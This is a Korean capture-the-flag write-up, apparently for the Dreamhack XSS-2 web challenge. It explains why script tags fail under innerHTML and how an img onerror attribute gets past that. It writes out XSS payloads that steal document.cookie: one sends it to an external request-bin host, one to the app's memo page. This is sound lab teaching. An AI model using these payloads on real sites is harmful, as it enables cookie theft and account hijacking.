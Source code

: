 문제
==
![1](https://user-images.githubusercontent.com/73854324/158143422-bb2f57fa-da04-4175-badb-b72320312bfe.png)
<br>
==
문제를 풀어보고 나니, 다른 방법이 생각나서 추가한다.   
밑으로 쭉쭉 내려서 처음에 푼 방법을 먼저 보면 이해가 더 잘 된다.   
<br><br>
![1](https://user-images.githubusercontent.com/73854324/158157258-6ca79698-05c7-4ddf-8682-8f3f38e8b651.png)<br>
코드를 보면, 우리는 먼저 flag 페이지에 POST 방식으로 요청을 보낸다.   
그 후 check_xss 함수가 실행된다. (뒤 코드를 보면 결과를 알겠지만, 쿠키 값이 없다면 wrong?? 이 뜰 것이다.)   
![2](https://user-images.githubusercontent.com/73854324/158157261-40fe18a6-5f29-481a-9b29-9d59aa61071c.png)<br>
check_xss 함수의 내용은 이러하다.(하단)   
입력받은 파라미터와 쿠키값을 가지고, read_url 함수를 통해서 flag 값을 가진 봇이 링크에 접속한다.   
read_url 함수에서는 웹드라이버를 통해서 flag 값을 쿠키로 가진 채 해당 url에 접속하게 된다.<br>
## 그렇다면, 봇이 쿠키값을 가진 채 접속하게만 하고 요청 헤더의 쿠키값만 확인하면 된다.   
<br>
dreamhack 사이트 내에는, 여러 툴들이 존재한다. 
<br><br>  
![0](https://user-images.githubusercontent.com/73854324/158157253-84b4ea82-9f9a-4c46-8ed8-262b75b1cc55.png)<br>
https://tools.dreamhack.games/main   
해당 링크 내 Request Bin 은, 임의로 웹서버를 만든 것처럼 가상으로 방문자들의 정보를 알 수 있다.   
이 웹서버로 봇이 쿠키값을 가지고 접속하게만 하면 된다.   
실전으로 옮겨보았다.   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158157265-09b9806a-d126-4797-87d3-c5da739aac5c.png)<br>
할당받은 url은 https://qwtdbvz.request.dreamhack.games 이다.   
```
https://qwtdbvz.request.dreamhack.games?document.cookie
```
이 곳으로 접속하면, 쿠키값을 가진채로 그냥 봇이 접속 할 것 같다.   
vuln 페이지에서 xss 공격을 하기 위해서는 img 태그를 사용했었다.   
![4](https://user-images.githubusercontent.com/73854324/158157266-0a9455a1-546c-495e-a932-baa8d02926c3.png)<br>
```
<img src="/" onerror="location.href='https://qwtdbvz.request.dreamhack.games?'+document.cookie">
```

바로 주입시켜보았다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158157269-8eec9af3-e3c1-4374-bd93-f78c7ac9aa57.png)<br>
요청 값으로 쿠키가 들어있다.   
<br><br><br><br><br><br>
처음에 푼 방법
==
![2](https://user-images.githubusercontent.com/73854324/158143428-737e818b-03ad-464e-aa1e-a697459697fa.png)<br>
메인페이지는 뭐.. xss-1 이랑 다를 바 없었다.   
(심지어 XSS-2 문제인데도, XSS-1 이라 적힌 것 까지)   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158143430-0e9b3f14-7553-4158-b43a-4411dbb9718b.png)<br>
xss-1 문제를 풀어보았으니, 바로 vuln 페이지로 들어갔는데,   
제대로 스크립트가 param 으로 전달되었음에도 팝업창이 뜨지 않았다.   
<br><br>
![4](https://user-images.githubusercontent.com/73854324/158143433-127f17f5-fcad-4944-89eb-3c1b90461149.png)<br>
note 페이지로 들어갔다.   
딱히 xss-1 문제랑은 다를 바 없어보인다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158143436-f3482d1a-6b92-43f5-bbc0-897f7b8fd830.png)<br>
flag 페이지 역시 마찬가지.   
<br><br>
![6](https://user-images.githubusercontent.com/73854324/158143440-12a9c843-0fc8-464a-acea-0eb97ef6fb7c.png)<br>
먼저 스크립트가 먹히지 않는 vuln 페이지의 소스를 살펴보았다.   
찾아보니, URLSearchParams 객체는, URL(GET방식) 로 파라미터를 받을 때 ? 뒤에 적히게 되는데   
? 를 제외한 파라미터 값들을 수정하거나 확인? 등 여러 용도로 사용할 수 있다고 한다.   
그리고 내 눈에 띄었던 점은, innerHTML 이었다.   
<br><br>
![7](https://user-images.githubusercontent.com/73854324/158143444-e45def26-b631-4764-a7db-db36e3565a10.png)<br>
```
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0
```
innerHTML 을 사용할 경우, <script> 구문이 먹혔기 때문에 HTML5 로 들어오면서 막혔다고 한다.   
innerHTML 과 비슷한 용도로 사용할 수 있는 innerText, textContent 가 있었다.   
<br>
대충 잠깐 정리해보자면,   
textContext 는 원시 텍스트(only 텍스트)만 결과물로 출력된다.   
innerText 는 html 태그들이 적용되지 않고 보이는 텍스트들만 결과물로 출력된다.   
innerHTML 는 html 태그들이 모두 포함되어 결과물로 출력된다.   

```
3가지 차이점에 대해 포스팅해놓으신 글
https://hianna.tistory.com/483
```
## 아무튼 XSS 스크립트를 실행시키기 위해서는 script 를 사용하지 않고 해야한다는 것을 알았다   
![8](https://user-images.githubusercontent.com/73854324/158143448-d5cb401e-7d48-4e52-9b85-aa3441f3e877.png)<br>
그렇다면, 전에 잠깐 알고있었던 img 태그의 onerror 속성을 이용해보기로 했다.   
보통 img src 에 파일명을 적는데, 없을만한 파일명을 적어주면 흔히 '엑박' 이 뜬다.   
이렇게 오류가 발생했을 경우, onerror 내부의 명령이 실행된다.   
<br><br>
![9](https://user-images.githubusercontent.com/73854324/158143449-1d3c4348-429a-43ac-ad05-eb4d5a832e39.png)<br>
onerror 를 이용해서 alert 창의 실행을 성공했다.   
그렇다면, onerror 내부에 xss 스크립트를 넣어준다면 쿠키를 탈취할 수 있을 것이다.   
<br><br>
![10](https://user-images.githubusercontent.com/73854324/158143450-da728bc0-1620-4bcf-8169-f4b0113832cb.png)<br>
```
주입 구문
<img src="/" onerror="location.href='/memo?memo='+document.cookie">
```


![11](https://user-images.githubusercontent.com/73854324/158143451-5c204d54-62b0-46d1-bdbe-0da2926dad37.png)<br>
성공적으로 되었다.   
이제 memo 페이지로 돌아가서 쿠키값을 확인해보자.   
(쿠키값에 flag 가 저장되어있고, 제대로 탈취되었는지 보러 가보자)   
<br><br>
![12](https://user-images.githubusercontent.com/73854324/158147825-c431f741-929f-4c49-8027-9f46f26f8dee.png)<br>
flag 값 획득 성공